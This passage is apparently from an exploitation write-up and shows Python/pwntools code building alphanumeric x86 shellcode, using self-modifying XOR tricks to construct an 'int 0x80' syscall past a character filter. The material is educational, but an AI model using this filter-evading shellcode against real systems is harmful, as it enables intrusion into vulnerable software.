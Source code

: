 ```python
    push 0x30
    pop eax
    xor al, 0x30
    push eax
    pop edx

    xor al, 0x4a
    xor al, 0x41
''')
for b in payload:
    assert(chr(b).isalnum())

payload += b'\x47'*60 # letter 'G'
```

The only remaining thing is the `int 0x80` instruction, which invokes the system call. We cannot directly write this instruction because it is non-alphanumeric. Instead, we have to use self-modifying code. We will prepend to our shellcode some code that modifes the memory after our last `xor al, 0x41` instruction. This prefx will change the target memory to the `int 0x80` instruction:

```python
payload  = b''
payload += asm('''
    //make memory zero to make space for the int 0x80 instruction
    //0x47 is the padding byte that we use
    push 0x47
    pop eax
    xor [ecx+0x41], eax;
    xor [ecx+0x42], eax;
    xor [ecx+0x43], eax;
    xor [ecx+0x44], eax;
    
    //construct int 0x80
    push 0x30
    pop eax
    xor al, 0x30

    //eax is now 0
    dec eax         /* 0xffffffff in EAX */
    xor ax, 0x4f73
    xor ax, 0x3041  /* 0xffff80cd in EAX */
    xor [ecx+0x41], eax; /* int 0x80 */

    /* Remaning shellcode. Same as before. */
    /* ... */
    xor al, 0x4a
    xor al, 0x41
''')
for b in payload:
    assert(chr(b).isalnum())
payload += b'\x47'*60
```
